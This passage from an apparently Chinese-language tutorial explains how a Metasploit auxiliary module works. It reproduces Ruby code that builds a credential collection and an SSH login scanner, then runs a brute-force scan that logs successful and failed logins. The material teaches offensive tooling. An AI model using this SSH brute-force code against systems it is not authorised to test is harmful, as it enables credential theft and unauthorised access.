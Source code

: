 至此，我忽然明白，原来自定义模块向外提供的选项就是所有`include`的类中设置的选项加上我们自己使用`register_options`设置的选项的集合（除去被`deregister`删掉的选项）。

接下来实例化一个凭据集对象和一个扫描器对象：

```ruby
	def run_host(ip)
		cred_collection = Metasploit::Framework::CredentialCollection.new(
			blank_passwords: datastore['BLANK_PASSWORDS'],
			pass_file: datastore['PASS_FILE'],
			password: datastore['PASSWORD'],
			user_file: datastore['USER_FILE'],
			userpass_file: datastore['USERPASS_FILE'],
			username: datastore['USERNAME'],
			user_as_pass: datastore['USER_AS_PASS'],
		)

		scanner = Metasploit::Framework::LoginScanner::SSH.new(
			host: ip,
			port: datastore['RPORT'],
			cred_details: cred_collection,
			proxies: datastore['PROXIES'],
			stop_on_success: datastore['STOP_ON_SUCCESS'],
			bruteforce_speed: datastore['BRUTEFORCE_SPEED'],
			connection_timeout: datastore['SSH_TIMEOUT'],
			framework: framework,
			framework_module: self,
		)
```

从上面的代码中，我们能进一步体会到`Msf::Auxiliary::AuthBrute`在整个模块构建中的作用：它相当于一个粘合层。我们知道，即使不用Metasploit，“爆破”这个操作也就是`字典+跑字典的程序`。所以`AuthBrute`向用户提供了一个“界面”，用来收取用户对各个模块的选项。之后，`AuthBrute`负责把这些设置分发给凭据集对象和扫描器对象，分发的方式就是上面的代码：在类的实例化的过程中作为参数传入。不过这样说其实是不准确的，因为`Msf::Auxiliary::Scanner`也参与了上述过程：毕竟选项`RHOSTS`是它设置的。现在我们可以画一个更准确的流程图了：

![Screen Shot 2018-10-21 at 5.47.54 PM.png]({{ site.url }}/images/metasploit/24A936DF5423399023508027238947BF.png)

现在引出了一个新问题：这个出现多次的`datastore`是什么？

参考[Class: Msf::DataStore](https://www.rubydoc.info/github/rapid7/metasploit-framework/Msf/DataStore)：

> The data store is just a bitbucket that holds keyed values. It is used by various classes to hold option values and other state information.

也就是如上图画的那样，各种选项信息被集成到`datastore`中，方便后续的引用，它位于`lib/msf/core/data_store.rb`。

最后就是扫描环节：

```ruby
		scanner.scan! do |result|
			credential_data = result.to_h
			credential_data.merge!(
				module_fullname: self.fullname,
				workspace_id: myworkspace_id
			)
			if result.success?
				credential_core = create_credential(credential_data)
				credential_data[:core] = credential_core
				create_credential_login(credential_data)

				print_good("#{ip} - LOGIN SUCCESSFUL: #{result.credential}")
			else
				invalidate_login(credential_data)
				print_status("#{ip} - LOGIN FAILED: #{result.credential} (#{result.status}: #{result.proof})")
			end
		end
```